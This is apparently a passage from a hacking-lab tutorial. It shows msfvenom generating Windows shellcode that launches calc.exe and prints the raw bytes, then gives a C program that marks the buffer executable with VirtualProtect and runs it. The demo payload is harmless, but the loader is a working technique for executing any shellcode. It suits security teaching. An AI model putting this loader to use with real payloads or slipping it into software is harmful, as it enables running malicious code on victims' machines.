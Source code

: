 We will use Msfvenom on the AttackBox to generate a shellcode that executes Windows files. We will be creating a shellcode that runs the **`calc.exe`** application.

Generate Shellcode to Execute calc.exe

```bash
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

As a result, the Metasploit framework generates a shellcode that executes the Windows calculator (calc.exe). The Windows calculator is widely used as an example in the Malware development process to show a proof of concept. If the technique works, then a new instance of the Windows calculator pops up. This confirms that any executable shellcode works with the method used.

# Shellcode injection

Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program's execution flow to update registers and functions of the program to execute the attacker's own code.

Now let's continue using the generated shellcode and execute it on the operating system. The following is a C code containing our generated shellcode which will be injected into memory and will execute "calc.exe".

On the AttackBox, let's save the following in a file named **`calc.c`**:

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```